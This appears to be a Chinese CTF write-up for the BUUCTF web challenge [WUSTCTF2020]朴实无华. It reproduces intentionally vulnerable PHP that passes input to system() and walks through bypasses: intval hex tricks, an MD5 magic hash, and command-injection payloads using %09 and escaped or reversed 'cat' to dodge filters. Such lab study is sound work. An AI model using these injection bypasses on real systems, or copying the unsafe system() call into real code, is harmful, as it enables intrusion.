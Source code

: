 ```yaml
---
title: [WUSTCTF2020]朴实无华
date: 2023-01-02 19:04 +0800
categories: [CTF,WEB]
tags: [WEB,buuctf]
img_path: /assets/images/
---
```


第一层：robots.txt

```txt
User-agent: *
Disallow: /fAke_f1agggg.php
```

第二层：header头

![image-20230102190519868](朴实无华.assets/image-20230102190519868.png)



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

level 1

```php
(intval($num) < 2020 && intval($num + 1) > 2021)
```

intval获取变量对的整数值，这里有两种方法都可以

```php
<?php
$a = '1e11';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);

$a = '0x9999';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);
```

level 2

```
$md5=$_GET['md5'];
if ($md5==md5($md5))
```

md5加密前后都相等，这里参考网上的脚本和答案

```python
import hashlib
i = 0
while True:
    text = '0e{}'.format(i)
    m = hashlib.md5(text.encode()).hexdigest()
    if m[0:2] == '0e' :
        if m[2:].isdigit():
            print(text,m)
            break
    i +=1
# 0e215962017
```

level 3

```php
if(!strstr($get_flag," ")){
	$get_flag = str_ireplace("cat", "wctf2020", $get_flag);
	system($get_flag);
```

(!strstr($get_flag," "))

匹配到空格为FALSE，不能有空格

$IFS 在执行 `ls$IFS/` 是可以的，到后面执行读取命令时，不知道为什么失效



str_ireplace("cat", "wctf2020", $get_flag);

cat 替换成 wctf2020，执行的命令最好不要出现 cat，当然这里可以绕过

?num=0x9999&md5=0e215962017&get_flag=c\a\t%09fll*

?num=0x9999&md5=0e215962017&get_flag=tac%09fll*

![image-20230102185754850](朴实无华.assets/image-20230102185754850.png)

![image-20230102190212349](朴实无华.assets/image-20230102190212349.png)